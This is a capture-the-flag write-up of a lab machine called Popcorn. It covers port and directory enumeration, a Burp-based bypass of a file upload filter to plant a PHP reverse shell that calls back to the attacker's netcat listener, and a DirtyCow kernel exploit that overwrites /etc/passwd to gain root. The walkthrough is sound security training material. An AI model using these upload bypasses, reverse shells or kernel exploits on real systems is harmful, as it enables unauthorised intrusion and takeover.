 Target: 10.10.10.6

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.6

Nmap scan report for 10.10.10.6
Host is up (0.13s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://10.10.10.6/FUZZ

index                   [Status: 200, Size: 177, Words: 22, Lines: 5]
test                    [Status: 200, Size: 47130, Words: 2474, Lines: 651]
torrent                 [Status: 301, Size: 310, Words: 20, Lines: 10]
rename                  [Status: 301, Size: 309, Words: 20, Lines: 10]
```

checking 10.10.10.6

![index](popcorn1.png)

checking /test

![/test](popcorn2.png)

checking /torrent

![/torrent](popcorn3.png)

registering an account

![register](popcorn4.png)

testing upload

![upload](popcorn5.png)

### Findings:Looking for attack vectors

Bypass upload denylisting using Burpsuite to upload a php reverse shell.


## Foothold:

[Payload Link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

preparing the payload
```
<snip>
$ip = '<ip>';  // CHANGE THIS
$port = 9001;       // CHANGE THIS
<snip>
```

upload success -> editting this torrent

![upload success](popcorn6.png)

intercepting in burp (upload php file)

![burp-php](popcorn7.png)

intercepting in burp (upload jpeg file)

![burp-jpeg](popcorn8.png)

spoofing in burp (send to repeater) (add jpeg in filename, change mime-type, add jpeg magic bytes before php script)

![repeater](popcorn9.png)

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

accessing uploaded file by clicking the 'Image File Not Found'

```
$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

upgrading shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

looking for suspicious file/s
```
www-data@popcorn:/$ cd /home

www-data@popcorn:/home$ ls -la

total 12
drwxr-xr-x  3 root   root   4096 Mar 17  2017 .
drwxr-xr-x 21 root   root   4096 Jun  3 08:38 ..
drwxr-xr-x  3 george george 4096 Oct 26  2020 george

www-data@popcorn:/home$ cd george

www-data@popcorn:/home/george$ ls -la

total 868
drwxr-xr-x 3 george george   4096 Oct 26  2020 .
drwxr-xr-x 3 root   root     4096 Mar 17  2017 ..
lrwxrwxrwx 1 george george      9 Oct 26  2020 .bash_history -> /dev/null
-rw-r--r-- 1 george george    220 Mar 17  2017 .bash_logout
-rw-r--r-- 1 george george   3180 Mar 17  2017 .bashrc
drwxr-xr-x 2 george george   4096 Mar 17  2017 .cache
-rw------- 1 root   root     1571 Mar 17  2017 .mysql_history
-rw------- 1 root   root       19 May  5  2017 .nano_history
-rw-r--r-- 1 george george    675 Mar 17  2017 .profile
-rw-r--r-- 1 george george      0 Mar 17  2017 .sudo_as_admin_successful
-rw-r--r-- 1 george george 848727 Mar 17  2017 torrenthoster.zip
-rw-r--r-- 1 george george     33 Jun  3 08:38 user.txt

www-data@popcorn:/home/george$ cd .cache

www-data@popcorn:/home/george/.cache$ ls

motd.legal-displayed
```

```
cat user.txt

<redacted>
```

## Priv Escalations:

enumerating with linpeas
```
════════════════════════════════════╣ System Information ╠════════════════════════════════════
[+] Operative system                                                                                               
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits                                    
Linux version 2.6.31-14-generic-pae (buildd@rothera) (gcc version 4.4.1 (Ubuntu 4.4.1-4ubuntu8) ) #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009  
```

exploiting outdated linux version using dirtycow
```
www-data@popcorn:/dev/shm$ gcc -pthread dirty.c -o dirty -lcrypt

www-data@popcorn:/dev/shm$ ./dirty.c

/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 

Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

mmap: b78a1000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password ''.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

```
www-data@popcorn:/dev/shm$ su - firefart

firefart@popcorn:/dev/shm# id

uid=0(firefart) gid=0(root) groups=0(root)
```

```
firefart@popcorn:/dev/shm# cat /root/root.txt

<redacted>
```
